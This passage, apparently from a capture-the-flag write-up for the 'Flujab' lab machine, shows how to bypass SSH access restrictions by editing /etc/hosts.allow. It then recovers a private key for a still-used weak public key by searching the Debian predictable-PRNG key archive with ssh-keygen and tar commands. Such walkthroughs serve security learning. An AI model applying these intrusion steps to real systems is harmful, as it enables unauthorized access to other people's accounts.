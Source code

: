 
{% include image.html image_alt="7f3b19a2.png" image_src="/2dcdadbe-3a4e-4f03-b58e-2582885b52ba/7f3b19a2.png" %}


One more thing. Recall that `nmap` couldn't determine the SSH version? This is why.


{% include image.html image_alt="929fa6a8.png" image_src="/2dcdadbe-3a4e-4f03-b58e-2582885b52ba/929fa6a8.png" %}


However, we can bypass it, if and only if, we can modify `/etc/hosts.allow`. That's because `/etc/hosts.allow` takes precedence over `/etc/hosts.deny`. Guess what? We have the permissions to edit it. :triumph:


{% include image.html image_alt="a37c35b8.png" image_src="/2dcdadbe-3a4e-4f03-b58e-2582885b52ba/a37c35b8.png" %}


Strangely, I need two directives to completely bypass `/etc/hosts.deny`. Once that's done, we can login as `sysadm` via SSH.


{% include image.html image_alt="056db148.png" image_src="/2dcdadbe-3a4e-4f03-b58e-2582885b52ba/056db148.png" %}


During enumeration of `sysadm`'s account, I notice in `/etc/ssh/deprecated_keys` a notice that says the public keys in that directory were compromised and are kept there for audit purposes


{% include image.html image_alt="8fe3729c.png" image_src="/2dcdadbe-3a4e-4f03-b58e-2582885b52ba/8fe3729c.png" %}


Yeah, right...One of the public keys is still being used by a certain doctor. Cheeky bastard.

```
$ ssh-keygen -l -f 0223269.pub
4096 SHA256:zOAcAtkPPKXqN8/XrkIk9w2V9ysS1sqEnklien7DruE drno@flujab.htb (RSA)
```

If I have to guess, I would say the compromised keys are linked to the Debian OpenSSL Predictable PRNG [issue](https://github.com/g0tmi1k/debian-ssh). In that case, we can easily search for the corresponding private key from the archive (which can be downloaded from the same URL) containing the 4096-bit keypairs.

```
# tar jtvf debian_ssh_rsa_4096_x86.tar.bz2 | grep $(ssh-keygen -E md5 -l -f 0223269.pub | cut -d' ' -f2 | cut -d ':' -f2- | tr -d ':')
-rw------- root/root      3239 2008-05-14 22:22 rsa/4096/dead0b5b829ea2e3d22f47a7cbde17a6-23269
-rw-r--r-- root/root       740 2008-05-14 22:22 rsa/4096/dead0b5b829ea2e3d22f47a7cbde17a6-23269.pub
```

We need just the private key. Let's extract it.

```
# tar jxvf debian_ssh_rsa_4096_x86.tar.bz2 rsa/4096/dead0b5b829ea2e3d22f47a7cbde17a6-23269
rsa/4096/dead0b5b829ea2e3d22f47a7cbde17a6-23269
```

Time to log in!
